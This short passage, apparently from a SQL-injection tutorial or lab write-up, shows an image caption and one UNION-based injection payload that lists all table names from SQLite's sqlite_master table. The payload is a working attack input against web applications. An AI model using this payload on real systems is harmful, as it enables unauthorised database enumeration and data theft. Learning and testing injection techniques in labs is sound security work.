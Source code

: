 ![sqli-dbs-sqlite](./images/sqli-dbs-sqlite.png)

Dumping all tables in the database from the `sqlite_master` table.
```bash
514 union select group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
```
